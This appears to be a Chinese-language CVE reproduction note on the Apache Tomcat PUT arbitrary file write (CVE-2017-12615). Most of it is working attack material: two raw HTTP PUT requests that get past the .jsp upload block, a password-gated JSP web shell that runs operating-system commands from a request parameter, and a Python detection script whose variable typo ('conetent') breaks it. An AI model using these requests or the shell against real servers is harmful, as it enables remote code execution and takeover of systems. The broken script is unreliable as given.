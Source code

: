 categories:
- cve复现
tags:
- cve复现
title: Tomcat PUT方法任意写文件漏洞CVE-2017-12615
---
# Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）



## 利用条件

 Apache Tomcat 7.0.0 - 7.0.79 

平台: Windows 

 启用了 HTTP PUT 请求方法  (conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 false)



## 利用方式

不能直接上传jsp结尾的文件

利用windows平台下:` sample.txt::$DATA `等价于`sample.txt`的特性来写shell



```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```



```
PUT /111.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```





```java
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



## 检测脚本

```python
import requests
def poc(url):
    filename="tomcat_check_vuln.txt"
    content="test"
    try:
        requests.put(url+"/"+filename,data=conetent)
        res=requests.get(url+"/"+filename)
    except :
        return False
    
    if res.status_code==200:
        return True
    return False

```

